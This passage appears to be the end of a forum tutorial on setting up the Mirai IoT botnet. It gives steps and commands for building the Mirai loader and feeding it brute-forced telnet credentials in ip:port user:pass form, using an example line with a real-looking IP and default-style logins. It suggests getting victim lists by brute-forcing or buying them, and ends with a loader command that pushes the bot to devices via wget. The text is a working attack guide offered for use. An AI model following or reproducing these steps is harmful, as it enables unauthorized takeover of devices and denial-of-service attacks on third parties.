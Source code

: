  /var/www/html/

 wait some seconds to be sure is realy uploaded,
 and open again the ssh terminal with putty or Mobaxterm and type this code and check if its apear in the http://YOUR.IP.OR.HOSTNAME:80 

 
 code: 
 
 service apache2 restart
 
 -------------------------NO MORE CODE-------------------STOP HERE AND READ----------------
 
 WELL AT THIS TIME AT NORMALLY EVERYTHING IS GOOD 
 after this step is only what i know about loadering bot to attack
 
 
 I'M NOT SURE ABOUT THIS BUT OPEN YOU CASE STUDY AND REPORT AND LET SOME COMMEND IN HACKFORUMS
 
 [Step21] - Loader reads telnet entries from STDIN in following format:
 
 ip:port user:pass
 
well get a list of bruted Iot device or do it yourself or buy on deepweb or in other cool websites :)

create a txt file with notepad or note bloc and put in this in the file .txt in this sense, AND UNPLOAD IN YOU VPS
in this directory ../Mirai-Source-Code/loader/

Code:

Exemple:

212.192.143.174:23 Admin:1234
212.192.143.174:23 Admin:1234
212.192.143.174:23 Admin:1234
212.192.143.174:23 Admin:1234
212.192.143.174:23 Admin:1234
212.192.143.174:23 Admin:1234
212.192.143.174:23 Admin:1234
212.192.143.174:23 Admin:1234
212.192.143.174:23 Admin:1234
 
 
[Step22] - Will build the loader, optimized, production use, no fuss.
open the terminal and go to this directory 
../Mirai-Source-Code/loader/

and type this code:

code:

/build.sh

and after than type this code but put you filename here --> file.txt before paste 

code:

cat file.txt | ./loader wget http://dyn.com

-------------------------------#FINISH, THE END #-----------------

